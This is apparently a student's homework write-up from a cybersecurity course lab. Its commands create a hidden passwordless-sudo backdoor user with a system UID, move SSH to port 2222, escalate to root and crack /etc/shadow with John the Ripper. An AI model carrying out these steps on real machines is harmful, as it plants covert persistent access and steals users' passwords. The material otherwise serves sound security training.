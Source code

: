 Homework for Module 6
George W. Brimer

Step 1: Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
useradd --no-create-home sysd
Give your secret user a password:
passwd sysd (passw0rd!)
Give your secret user a system UID < 1000:
usermod -u 278 sysd
Give your secret user the same GID:
groupmod -g 278 sysd
Give your secret user full sudo access without the need for a password:
visudo
sysd ALL=(ALL:ALL) NOPASSWD:ALL
Test that sudo access works without your password:
su sysd
sudo -l
Step 2: Smooth Sailing
nano vi /etc/ssh/sshd_config
change Port 22 to Port 2222
Step 3: Testing Your Configuration Update
Restart the SSH service:
systemctl restart sshd
Exit the root account:
exit x2
SSH to the target machine using your sysd account and port 2222:
ssh sysd@192.168.6.105 -p 2222
Use sudo to switch to the root user:
sudo su
Step 4: Crack All the Passwords
SSH back to the system using your sysd account and port 2222:
ssh sysd@192.168.6.105 -p 2222
Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
sudo su
john /etc/shadow
